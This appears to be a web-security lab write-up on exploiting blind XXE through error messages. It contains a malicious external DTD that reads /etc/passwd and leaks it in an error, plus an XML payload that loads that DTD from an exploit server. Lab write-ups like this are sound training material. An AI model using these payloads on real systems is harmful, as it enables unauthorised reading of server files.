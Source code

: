 # Exploiting blind XXE to retrieve data via error messages

## Exploiting blind XXE to retrieve data via error messages

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, use an external DTD to trigger an error message that displays the contents of the `/etc/passwd` file.

The lab contains a link to an exploit server on a different domain where you can host your malicious DTD.

Exploit:

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

Solution:

```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-ac1e1f871ef12ff8c0468369018e004d.web-security-academy.net/exploit.dtd"> %xxe; ]>
```